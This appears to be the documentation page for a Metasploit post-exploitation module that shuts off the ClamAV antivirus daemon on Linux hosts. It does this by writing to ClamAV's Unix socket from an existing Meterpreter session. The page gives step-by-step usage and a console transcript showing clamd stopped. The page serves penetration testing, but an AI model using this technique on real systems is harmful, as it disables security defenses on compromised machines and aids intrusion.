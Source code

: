 ### Description
This module will cause the ClamAV service to be shutoff on Linux hosts. 
ClamAV uses a Unix socket that allows non-privileged users to interact with the ClamAV daemon via utilities like "clamscan".
However, no additional checks are required to trigger ClamAV's shutdown.

## Verification Steps
### Shutting off ClamAV
  1. Launch `msfconsole`
  2. Get a Meterpreter shell on a Linux host that's also running ClamAV.
  3. Do: `use post/linux/manage/disable_clamav`
  4. Do: `set SESSION <session number on the Linux host>`
  6. Do: `exploit -j`
  7. The daemon should be shutoff.

## Scenarios
```
msf6 post(linux/manage/disable_clamav) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4         meterpreter x86/linux  dllcoolj @ 192.168.130.1  127.0.0.1:4444 -> 127.0.0.1:38360 (127.0.0.1)

msf6 post(linux/manage/disable_clamav) > show options

Module options (post/linux/manage/disable_clamav):

   Name                Current Setting        Required  Description
   ----                ---------------        --------  -----------
   CLAMAV_UNIX_SOCKET  /run/clamav/clamd.ctl  yes       ClamAV unix socket
   SESSION             4                      yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(linux/manage/disable_clamav) > ps -ef | grep 'clamd'
[*] exec: ps -ef | grep 'clamd'

clamav    132021       1 16 18:51 ?        00:00:09 clamd
dllcoolj  132533   71177  0 18:52 pts/3    00:00:00 sh -c ps -ef | grep 'clamd'
dllcoolj  132535  132533  0 18:52 pts/3    00:00:00 grep clamd
msf6 post(linux/manage/disable_clamav) > exploit -j
[*] Post module running as background job 10.
msf6 post(linux/manage/disable_clamav) >
[*] Checking file path /run/clamav/clamd.ctl exists and is writable...
[+] File does exist and is writable!
[*] Shutting down ClamAV!

msf6 post(linux/manage/disable_clamav) > ps -ef | grep 'clamd'
[*] exec: ps -ef | grep 'clamd'

dllcoolj  132927  132925  0 18:52 pts/3    00:00:00 grep clamd
```

